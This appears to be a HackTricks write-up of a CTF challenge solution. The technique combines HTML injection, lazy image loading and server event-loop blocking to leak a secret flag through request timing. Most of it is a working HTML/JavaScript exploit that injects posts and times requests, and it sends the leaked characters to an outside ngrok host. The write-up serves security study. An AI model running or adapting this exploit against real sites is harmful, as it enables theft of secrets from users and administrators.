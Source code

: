 # Event Loop Blocking + Lazy images

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In [**this exploit**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) mixes the **lazy image side channel** technique through a HTML injection with kind of **event loop blocking technique** to leak chars.

This is a **different exploit for the CTF chall** that was already commented in the following page. take a look for more info about the challenge:

{% content-ref url="connection-pool-example.md" %}
[connection-pool-example.md](connection-pool-example.md)
{% endcontent-ref %}

The idea behind this exploit is:

* The posts are loaded alphabetically
* An **attacker** can **inject** a **post** starting with **"A"**, then some **HTML tag** (like a big **`<canvas`**) will fulfil most of the **screen** and some final **`<img lazy` tags** to load things.
* If instead of an "A" the **attacker injects the same post but starting with a "z".** The **post** with the **flag** will appear **first**, then the **injected** **post** will appear with the initial "z" and the **big** **canvas**. Because the post with the flag appeared first, the first canvas will occupy all the screen and the final **`<img lazy`** tags injected **won't be seen** in the screen, so they **won't be loaded**.
* Then, **while** the bot is **accessing** the page, the **attacker** will **send fetch requests**.&#x20;
  * If the **images** injected in the post are being **loaded**, these **fetch** requests will take **longer**, so the attacker knows that the **post is before the flag** (alphabetically).
  * If the the **fetch** requests are **fast**, it means that the **post** is **alphabetically** **after** the flag.

Let's check the code:

```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  
  <!-- Inject post with payload -->
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>
  
  <!-- Remove index -->
  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    // Function to leak info to attacker
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      
      // I have omited code here as apparently it wasn't necesary

      // fallback to linerar since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          // <canvas height="3350px"> is experimental and allow to show the injected
          // images when the post injected is the first one but to hide them when
          // the injected post is after the post with the flag
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
      // Open posts page 5 times
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30 //Lets time 30 requests
      setTimeout(async () => {
        // Send 30 requests and time each
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        // Send info about how much time it took
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>
</body>
</html>
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
